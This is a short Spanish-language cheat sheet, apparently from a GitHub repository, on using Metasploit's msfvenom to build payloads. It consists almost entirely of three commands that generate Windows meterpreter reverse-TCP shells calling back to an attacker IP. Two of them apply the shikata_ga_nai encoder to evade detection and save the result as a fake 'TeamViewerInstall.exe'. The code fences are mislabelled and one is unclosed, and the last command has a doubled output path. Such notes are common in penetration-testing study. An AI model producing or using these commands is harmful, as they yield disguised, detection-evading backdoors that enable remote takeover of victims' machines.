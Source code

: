 # MSFVENOM
## Descripción
MSFVENOM es una herramienta que viene integrada en metasploit framework que sirve principalmente para crear payloads, podemos ver algunos ejemplos con enconders para darle algo mas de sabor.

### Forma Típica
```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx

### Encoder shikata_ga_nai sin interacciones
```python
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

### Encoder shikata_ga_nai con interacciones
```python
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe./TeamViewerInstall.exe
```

